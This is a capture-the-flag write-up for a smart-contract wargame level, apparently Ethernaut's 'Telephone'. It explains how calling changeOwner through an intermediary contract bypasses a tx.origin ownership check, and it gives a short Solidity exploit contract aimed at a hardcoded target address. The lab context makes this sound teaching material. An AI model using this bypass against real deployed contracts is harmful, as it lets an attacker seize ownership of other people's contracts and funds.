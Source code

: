 Challange:

Claim ownership of the contract below to complete this level.

![Contract](img/1.png)

Solution:

This is quite simple, we just need to call the changeOwner function from other contract so that the tx.origin is not equal to msg.sender since the msg.sender will be the address of the caller instead of EOA address.

We can use the following code to simply call the function using our address:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public TARGET = 0x94A569b60D35074d84dFB525046E5905173161A2;
    address public ADDRESS = YOUR_ADDRESS

    function sendTransaction() public {
        (bool success, ) = TARGET.call(abi.encodeWithSignature("changeOwner(address)", ADDRESS));
        require(success, "Error Transaction");
    }
}
```

![Success](img/2.png)
